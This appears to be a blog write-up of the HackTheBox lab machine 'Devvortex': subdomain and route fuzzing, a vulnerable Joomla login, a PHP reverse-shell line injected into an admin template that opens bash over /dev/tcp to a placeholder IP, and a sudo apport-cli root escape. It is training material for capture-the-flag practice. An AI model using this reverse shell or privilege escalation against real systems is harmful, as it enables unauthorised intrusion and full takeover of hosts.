 ```yaml
---
layout: post
title: "Devvortex-Linux-Easy"
date:   2025-07-10 12:05:57 -0400
categories: writeups
thumb: /assets/images/logos/2565d292772abc4a2d774117cf4d36ff.webp
---
```


# Devvortex

HackTheBox: Easy

<aside>
💡 Devvortex is a linux easy machine where we can practice fuzzing, exploiting vulnerabilities exposed, seversing shell’s and hashing.

</aside>

## 1: Enumeration

- Scanning ports

![Untitled]({{ '/assets/images/d25d6a12-05b4-4c8e-b3dd-20d8420b97d1-export-0e5fc15f-de53-40ea-ab02-e6044c5b62e7/d25d6a12-05b4-4c8e-b3dd-20d8420b97d1-export-0e5fc15f-de53-40ea-ab02-e6044c5b62e7_Untitled.png' | relative_url }})

Let’s look for some subdomains

![Untitled]({{ '/assets/images/d25d6a12-05b4-4c8e-b3dd-20d8420b97d1-export-0e5fc15f-de53-40ea-ab02-e6044c5b62e7/d25d6a12-05b4-4c8e-b3dd-20d8420b97d1-export-0e5fc15f-de53-40ea-ab02-e6044c5b62e7_Untitled_1.png' | relative_url }})

FUZZ some routes

![Untitled]({{ '/assets/images/d25d6a12-05b4-4c8e-b3dd-20d8420b97d1-export-0e5fc15f-de53-40ea-ab02-e6044c5b62e7/d25d6a12-05b4-4c8e-b3dd-20d8420b97d1-export-0e5fc15f-de53-40ea-ab02-e6044c5b62e7_Untitled_2.png' | relative_url }})

![Untitled]({{ '/assets/images/d25d6a12-05b4-4c8e-b3dd-20d8420b97d1-export-0e5fc15f-de53-40ea-ab02-e6044c5b62e7/d25d6a12-05b4-4c8e-b3dd-20d8420b97d1-export-0e5fc15f-de53-40ea-ab02-e6044c5b62e7_Untitled_3.png' | relative_url }})

We can see a log in powered by joomla, which has its own scanning tool

![Untitled]({{ '/assets/images/d25d6a12-05b4-4c8e-b3dd-20d8420b97d1-export-0e5fc15f-de53-40ea-ab02-e6044c5b62e7/d25d6a12-05b4-4c8e-b3dd-20d8420b97d1-export-0e5fc15f-de53-40ea-ab02-e6044c5b62e7_Untitled_4.png' | relative_url }})

![Untitled]({{ '/assets/images/d25d6a12-05b4-4c8e-b3dd-20d8420b97d1-export-0e5fc15f-de53-40ea-ab02-e6044c5b62e7/d25d6a12-05b4-4c8e-b3dd-20d8420b97d1-export-0e5fc15f-de53-40ea-ab02-e6044c5b62e7_Untitled_5.png' | relative_url }})

Interesting, a version with a vulnerability

![Untitled]({{ '/assets/images/d25d6a12-05b4-4c8e-b3dd-20d8420b97d1-export-0e5fc15f-de53-40ea-ab02-e6044c5b62e7/d25d6a12-05b4-4c8e-b3dd-20d8420b97d1-export-0e5fc15f-de53-40ea-ab02-e6044c5b62e7_Untitled_6.png' | relative_url }})

![Untitled]({{ '/assets/images/d25d6a12-05b4-4c8e-b3dd-20d8420b97d1-export-0e5fc15f-de53-40ea-ab02-e6044c5b62e7/d25d6a12-05b4-4c8e-b3dd-20d8420b97d1-export-0e5fc15f-de53-40ea-ab02-e6044c5b62e7_Untitled_7.png' | relative_url }})

## 2: User flag

With this we break into admin interface, we can see a lot of .php files(**System -> Templates -> Administrator Templates.**), we can inject a rev shell

```bash
system('bash -c"bash -i > & /dev/tcp/10.10.00.000/0000 0>&1"');
```

We dive into as data, and we can find at /etc/passwod a logan user with creds for sql database

![Untitled]({{ '/assets/images/d25d6a12-05b4-4c8e-b3dd-20d8420b97d1-export-0e5fc15f-de53-40ea-ab02-e6044c5b62e7/d25d6a12-05b4-4c8e-b3dd-20d8420b97d1-export-0e5fc15f-de53-40ea-ab02-e6044c5b62e7_Untitled_8.png' | relative_url }})

We hash and got the user flag

![Untitled]({{ '/assets/images/d25d6a12-05b4-4c8e-b3dd-20d8420b97d1-export-0e5fc15f-de53-40ea-ab02-e6044c5b62e7/d25d6a12-05b4-4c8e-b3dd-20d8420b97d1-export-0e5fc15f-de53-40ea-ab02-e6044c5b62e7_Untitled_9.png' | relative_url }})

## 3: Priv esc

![Untitled]({{ '/assets/images/d25d6a12-05b4-4c8e-b3dd-20d8420b97d1-export-0e5fc15f-de53-40ea-ab02-e6044c5b62e7/d25d6a12-05b4-4c8e-b3dd-20d8420b97d1-export-0e5fc15f-de53-40ea-ab02-e6044c5b62e7_Untitled_10.png' | relative_url }})

There is a vulnerability to esc priv we are gonna make it in this way:

```bash
sleep 60 & (segundo plano)
sudo /usr/bin/apport-cli -c /var/crash/sleep.0.crash
view report
!/bin/bash
Root...
```
<script src="{{ '/assets/js/matrix-overlay.js' | relative_url }}"></script>
